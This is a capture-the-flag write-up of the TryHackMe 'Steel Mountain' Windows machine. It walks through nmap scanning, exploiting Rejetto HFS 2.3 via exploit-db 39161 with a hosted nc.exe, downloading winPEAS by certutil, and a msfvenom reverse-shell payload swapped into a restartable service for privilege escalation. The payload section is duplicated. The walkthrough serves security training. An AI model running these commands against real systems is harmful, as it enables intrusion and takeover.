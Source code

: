 #TryHackMe-Steel Mountain

## NMAP

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-26 23:25 PKT                                                                              [13/93]
Stats: 0:02:10 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan                                                                          
NSE Timing: About 98.96% done; ETC: 23:27 (0:00:00 remaining)                                                                                       
Stats: 0:02:12 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan                                                                          
NSE Timing: About 98.96% done; ETC: 23:27 (0:00:00 remaining)                                                                                       
Nmap scan report for 10.10.252.157                                        
Host is up (0.18s latency).                                               
Not shown: 988 closed ports                                               
PORT      STATE SERVICE            VERSION                                
80/tcp    open  http               Microsoft IIS httpd 8.5                                                                                          
| http-methods:                                                           
|_  Potentially risky methods: TRACE                                      
|_http-server-header: Microsoft-IIS/8.5                                                                                                             
|_http-title: Site doesn't have a title (text/html).                                                                                                
135/tcp   open  msrpc              Microsoft Windows RPC                                                                                            
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn                                                                                    
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds                                                             
3389/tcp  open  ssl/ms-wbt-server?                                        
|_ssl-date: 2020-10-26T18:26:37+00:00; 0s from scanner time.                                                                                        
8080/tcp  open  http               HttpFileServer httpd 2.3                                                                                         
|_http-server-header: HFS 2.3                                             
|_http-title: HFS /                  
49152/tcp open  msrpc              Microsoft Windows RPC                                                                                            
49153/tcp open  msrpc              Microsoft Windows RPC                                                                                            
49154/tcp open  msrpc              Microsoft Windows RPC                                                                                            
49155/tcp open  msrpc              Microsoft Windows RPC                                                                                            
49156/tcp open  msrpc              Microsoft Windows RPC                                                                                            
49163/tcp open  msrpc              Microsoft Windows RPC                                                                                            
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows                                                            

Host script results:                 
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:84:f3:74:2b:f5 (unknown)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)                                                                                
| smb-security-mode:                 
|   account_used: guest                
|   authentication_level: user                                            
|   challenge_response: supported                                         
|_  message_signing: disabled (dangerous, but default)                                                                                              
| smb2-security-mode:                
|   2.02:                            
|_    Message signing enabled but not required                            
| smb2-time:                         
|   date: 2020-10-26T18:26:30                                             
|_  start_date: 2020-10-26T18:21:06                                       

```

## PORT 80

`Who is the employee of the month?`

Visit the web page on port 80 then look at the source of the web page and you'll image name which is the answer to the question.

<img src="https://imgur.com/rimrVAT.png"/>

<img src="https://imgur.com/a5L2WPI.png"/>

`Scan the machine with nmap. What is the other port running a web server on?`

PORT 8080


## PORT 8080


<img src="https://imgur.com/s1URJrD.png"/>

Clicking below at the link `HttpFileServer 2.3` will redirect you to a page

<img src="https://imgur.com/nGfv4pR.png"/>

`Take a look at the other web server. What file server is running?`

Rejetto Http File Server

`What is the CVE number to exploit this file server?`

## Searchsploit

Now we know that it's using Rejetto Http File Server version 2.3 so let's find exploits for it

<img src="https://imgur.com/WAK96sW.png"/>

Let's try using this exploit

https://www.exploit-db.com/exploits/39161

<img src="https://imgur.com/I4plTzW.png"/>

Change the local IP and local port if you want doesn't matter if you use the default `443` port in this exploit 

<img src="https://imgur.com/LUkkYbl.png"/>

Now host the `nc.exe` on you local machine which can be downloaded from github `https://github.com/int0x33/nc.exe/blob/master/nc.exe` or if your using kali linux then it will be available to  `/usr/share/windows-resources/binaries/nc.exe`

Hosting this file can be through python but remember to keep the port on `80` because that's the default port that http listens on

`python3 -m http.server 80`

Also set up a net cat listener `nc -lvp [port]`

Run the exploit with python2 39161 <target machine> 8080

<img src="https://imgur.com/UGhffUg.png"/>

Run it again because the first time you ran it just downloaded it but now when you run this exploit again it will execute `nc.exe`

<img src="https://imgur.com/I6rDzIu.png"/>

Now upload `winPEAS.exe` on the machine for that host that file locally then download it on targeted machine

```
C:\Users\bill\Desktop>certutil.exe -urlcache -f http://10.14.3.143:80/winPEAS.exe winpeas.exe
certutil.exe -urlcache -f http://10.14.3.143:80/winPEAS.exe winpeas.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Users\bill\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\bill\Desktop

10/26/2020  02:31 PM    <DIR>          .
10/26/2020  02:31 PM    <DIR>          ..
10/26/2020  01:57 PM           600,580 PowerUp.ps1
09/27/2019  05:42 AM                70 user.txt
10/26/2020  02:31 PM           472,064 winpeas.exe
               3 File(s)      1,072,714 bytes
               2 Dir(s)  44,155,019,264 bytes free

C:\Users\bill\Desktop>
```
Now by simply typing .\winpeas.exe

<img src="https://imgur.com/MqqNtki.png"/>

We can see that this services can be exploited so let's generate a payload named as `ASCService.exe`

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.14.3.143 LPORT=6666 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```
Set up the netcat listener and stop that service after that  upload it to the target machine and restart the service again

### Stoppping the service 

```
                                                                                                                                                    
C:\Program Files (x86)\IObit\Advanced SystemCare>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

```
### Starting the service

<img src="https://imgur.com/59JbctJ.png"/>

<img src="https://imgur.com/I8EfqsJ.png"/>


## Metasploit

<img src="https://imgur.com/m7CpvJo.png"/>

<img src="https://imgur.com/ovTUsAq.png"/>

No we want to escalate our root privileges so we will run `Powerup.ps1` powershell script to look for misconfigurations on targeted windows machine

<img src="https://imgur.com/rI8pOGx.png"/>

To enter into powershell first write `load powershell` then `powershell_shell`

<img src="https://imgur.com/3dHlaT5.png"/>

Run `. .\PowerUp.ps1` and `Invoke-AllChecks`

<img src="https://imgur.com/x6OYhwJ.png"/>

Now check for service having `canRestart` set to True

<img src="https://imgur.com/AaGL54a.png"/>

And name of the service is `AdvancedSystemCareService9`

Now generate a payload with name `ASCService.exe` 

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.14.3.143 LPORT=6666 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```
Set up the netcat listener and stop that service after that  upload it to the target machine and restart the service again

### Stoppping the service 

```
                                                                                                                                                    
C:\Program Files (x86)\IObit\Advanced SystemCare>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

```
### Starting the service

<img src="https://imgur.com/59JbctJ.png"/>

<img src="https://imgur.com/I8EfqsJ.png"/>
